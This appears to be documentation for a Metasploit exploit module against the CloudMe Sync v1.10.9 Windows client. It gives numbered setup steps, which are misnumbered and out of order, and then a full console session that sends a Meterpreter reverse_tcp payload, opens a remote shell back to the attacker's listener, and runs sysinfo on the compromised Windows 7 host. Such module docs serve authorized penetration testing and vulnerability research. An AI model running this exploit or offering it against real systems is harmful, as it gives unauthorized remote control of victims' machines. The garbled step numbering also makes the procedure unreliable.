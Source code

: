 
## Verification Steps
  1. Install CloudMe for Desktop version `v1.10.9`
  2. Create a free account and start the applicaton
  6. Start `msfconsole`
  4. Do `use exploit/windows/misc/cloudme_sync`
  5. Do `set RHOST ip`
  11. Do `set PAYLOAD windows/meterpreter/reverse_tcp`
  12. Do `set LHOST ip`
  13. Do `exploit`
  14. Verify the Meterpreter session is opened

## Scenarios

### CloudMe Sync client application on Windows 7 SP1

```
msf > use exploit/windows/misc/cloudme_sync 
msf exploit(windows/misc/cloudme_sync) > show options 

Module options (exploit/windows/misc/cloudme_sync):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  172.16.40.148    yes       The target address
   RPORT  8888             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.40.5      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   CloudMe Sync v1.10.9


msf exploit(windows/misc/cloudme_sync) > set RHOST 172.16.40.148
RHOST => 172.16.40.148
msf exploit(windows/misc/cloudme_sync) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/misc/cloudme_sync) > set LHOST 172.16.40.5 
LHOST => 172.16.40.5
msf exploit(windows/misc/cloudme_sync) > exploit 

[*] Started reverse TCP handler on 172.16.40.5:4444 
[*] Sending stage (179779 bytes) to 172.16.40.148
[*] Meterpreter session 1 opened (172.16.40.5:4444 -> 172.16.40.148:57185) at 2018-02-19 12:35:21 +0000

meterpreter > sysinfo 
Computer        : PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : pt_PT
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
